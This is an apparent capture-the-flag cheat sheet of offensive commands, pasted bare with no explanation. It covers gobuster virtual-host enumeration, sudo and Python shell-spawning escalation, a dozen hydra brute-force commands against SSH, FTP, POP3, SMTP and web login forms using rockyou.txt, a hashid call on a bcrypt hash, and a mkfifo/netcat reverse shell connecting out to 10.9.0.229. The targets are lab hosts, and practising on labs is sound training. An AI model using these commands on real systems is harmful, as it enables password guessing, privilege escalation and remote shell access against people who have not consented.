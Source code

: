 gobuster vhost -u http://vulnnet.thm -w /usr/share/wordlists/dirb/common.txt
 
# Sudo #

sudo -l ls -la

sudo -u toby /bin/bash

sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
 
# Import OS #

import os
os.system("/bin/bash")

# Hydra #

hydra -l joker -P /usr/share/wordlists/rockyou.txt 10.10.9.219 ssh -vV
	
hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10

hydra -l fox -P /usr/share/wordlists/rockyou.txt -f 10.10.32.242 http-get ----> Basic Auto - Get Metod.

hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.225.50 -vV

hydra hogwartz-castle.thm http-form-post "/login/index.php:user=^USER^&password=^PASS^:Incorrect Username or Password" -l Hagrid -P /usr/share/wordlists/rockyou.txt

hydra -l admin -P rockyou.txt 10.10.159.24 http-post-form “/login/index.php:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid” -f -vV  ***

hydra -l admin -P rockyou.txt 10.10.159.24 http-post-form “/login/index.php:user=^USER^&pass=^PASS^&Login=Login:F=Err” -f -vV ***

hydra -l boris -P /usr/share/wordlists/rockyou.txt pop3://10.10.117.44:55007 -Vv 
	
hydra -l pittman@clinic.thmredteam.com -P clinic.lst smtp://10.10.27.216 -vV
	
hydra -l phillips -P clinic.txt 10.10.129.191 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
	
hydra -l phillips -P clinic.txt 10.10.129.191 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f

# Basic HashID #

hashid -m $2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG

# Tunnel #

rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.229 4485 >/tmp/f
